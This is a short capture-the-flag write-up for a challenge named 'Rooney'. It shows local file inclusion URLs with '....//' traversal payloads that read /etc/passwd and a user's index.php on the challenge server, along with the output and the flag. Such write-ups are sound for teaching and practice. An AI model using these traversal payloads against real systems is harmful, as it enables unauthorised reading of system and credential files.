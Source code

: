 # Rooney
## LFI
http://178.62.48.181/~rooney/?path=....//index.php

http://178.62.48.181/~rooney/?path=....//....//....//....//....//etc/passwd

=> `th1sizveryl0ngus3rn4me:x:1001:1001:,,,:/home/th1sizveryl0ngus3rn4me:/bin/bash`


http://178.62.48.181/~rooney/?path=....//....//....//....//home/th1sizveryl0ngus3rn4me/public\_html/index.php

=> `ASIS{I_l0V3_Us3rD1r_Mpdul3!!}`

